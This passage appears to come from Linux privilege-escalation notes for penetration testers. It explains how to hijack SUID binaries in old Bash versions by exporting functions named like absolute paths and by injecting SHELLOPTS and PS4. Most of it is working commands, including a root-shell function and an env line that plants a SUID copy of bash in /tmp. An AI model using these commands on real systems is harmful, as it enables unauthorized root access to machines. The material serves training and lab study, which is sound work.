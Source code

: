 For example (just write in terminal):
```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```
Here we have created a function with the same name as the absolute path of the service binary. 
And this function takes precedence over the actual binary!

So, if you investigate a SUID file like in the previous section (pspy, ltrace, strace, strings), then you can highjack their system calls with such a function. 

And it even works if they used a full abolute path!

Check bash version:
```bash
bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
```

Example SUID binary investigated:
```bash
$ strings /usr/local/bin/vulnerable_bin_env
...
/usr/sbin/service apache2 start
...

$ ltrace /usr/local/bin/vulnerable_bin_env 2>&1 | grep service
system("/usr/sbin/service apache2 start"
```

## Bash SHELLOPTS

Relevant for: **Bash before version 4.4**.

If a SUID file runs another program via Bash (e.g. by using system()) environment variables can be inherited, including SHELLOPTS and PS4.

Investigate SUID files as described in the previous sections (ltrace, strace, strings, pspy) to find one that calls /bin/bash or system().

If you find one, then you can inject the two debug environment variables SHELLOPTS and PS4, which will be executed by the new instance of bash, allowing you to execute arbitrary commands as root.

```bash
env -i SHELLOPTS=xtrace PS4='$(<root_command_injection>)' <SUID_file>
```

Example:
```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2
```

Be wary that the injected command gets executed with every debug output of xtrace. So only use commands for the injection that can be run repeatedly without causing havoc on the machine.


## Boring SUID Files
